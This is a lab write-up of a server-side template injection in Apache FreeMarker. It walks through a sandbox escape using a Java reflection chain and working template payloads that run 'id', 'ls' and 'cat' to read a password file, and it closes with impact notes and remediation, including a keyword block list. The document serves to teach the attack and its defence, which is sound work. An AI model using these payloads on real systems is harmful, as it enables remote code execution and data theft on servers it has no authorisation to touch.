






# Exploiting Server-Side Template Injection (SSTI) in a Sandboxed Environment

## 📌 Summary

The application is vulnerable to **Server-Side Template Injection (SSTI)** via the **Apache FreeMarker** engine. Although the application implements a security sandbox to restrict dangerous methods (like `?new()`), the sandbox is poorly configured. An attacker can use Java Reflection techniques on available template variables (such as the `product` object) to access underlying Java classes, bypass restriction filters, load the command execution utility, and read local system files.

---

## 🧾 Description

When a template engine allows users to edit templates, developers use a **Sandbox** to block dangerous functions that can execute system commands. However, if the sandbox only blocks common keywords but leaves the underlying Java runtime properties exposed, it can be broken.

In this lab, the application uses FreeMarker. By invoking properties on the pre-existing `product` object, we can chain Java methods using `.class` and `.protectionDomain`. This allows us to access the system's `ClassLoader`. Using this ClassLoader, we can manually fetch the restricted `freemarker.template.utility.Execute` class and trick the engine into running system commands (like `id`, `ls`, and `cat`), completely breaking out of the sandbox confinement.

---

## 🔁 Steps to Reproduce

1. Log in to the application using the authorized content manager credentials:

```text
content-manager:C0nt3ntM4n4g3r

```

2. Open any product and click **Edit template**. Force a template error by inserting an invalid or non-existent variable name alongside the default product variables:

```text
${sameer}

```

3. Click **Preview**. The server leaks a verbose error stack trace explicitly stating: `freemarker.core.InvalidReferenceException`. This confirms that the engine running behind the sandbox is **Apache FreeMarker**.
4. Since a strict sandbox blocks direct execution methods, use the properties of the accessible `product` object to load Java's backend class structure. Construct a payload that extracts the ClassLoader, bypasses standard object restrictions via the default `ObjectWrapper`, and loads the restricted `Execute` utility:

```freemarker
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>

```

5. Test if command execution is successful by appending the instantiation line to execute the basic `id` tool:

```freemarker
${dwf.newInstance(ec,null)("id")}

```

Click **Preview** and check the output to see the command execute successfully, showing server group IDs (`uid=12002(carlos)`).

6. Change the command parameter inside the execution template from `"id"` to `"ls"` to verify the contents of the active working directory:

```freemarker
${dwf.newInstance(ec,null)("ls")}

```

The output displays the presence of a target file named `my_password.txt`.

7. Finally, issue a system `cat` command inside the payload string to read the contents of the password file directly:

```freemarker
${dwf.newInstance(ec,null)("cat my_password.txt")}

```

8. Click **Preview** or **Save**. The file content (`kdqwhtbobo897z6mvtk2`) prints clearly on the web page screen. Copy this password value and submit it to finalize the lab solution.

---

## 📸 Proof of Concept (PoC)

1. Logging in with content manager credentials to access template tools


1. Triggering a FreeMarker reference error to analyze system stack structures


1. Crafting the Reflection bypass chain to invoke the `id` command


1. Executing `ls` to list file directories inside the active space


1. Using `cat my_password.txt` to dump the file content and solve the target requirements


1. Completion alert confirmation banner


---

## 💥 Impact

* **Sandbox Escape & Full Remote Code Execution (RCE):** The attacker completely bypasses access control mechanisms, running commands natively on the host container.
* **Sensitive Data Theft:** Arbitrary files containing application parameters, infrastructure keys, and user credentials (such as `my_password.txt`) can be read.
* **Privilege Escalation:** Legitimate system components can be leveraged to escalate control over neighboring networks or databases.

---

## 🛠️ Remediation

* **Apply a Restrictive Class Resolver:** Configure FreeMarker's security settings to use the `ALLOWS_NOTHING_RESOLVER`. This blocks templates from interacting with system classes or accessing object class properties like `.class`.
* **Block Reflection Properties:** Implement validation interceptors that scrub incoming user template inputs for hazardous keywords such as `class`, `classLoader`, `protectionDomain`, or `loadClass`.
* **Run in Low-Privilege Environments:** Isolate the application processes using non-root system users inside minimal read-only containers, ensuring that even if a sandbox escape occurs, structural damage is mitigated.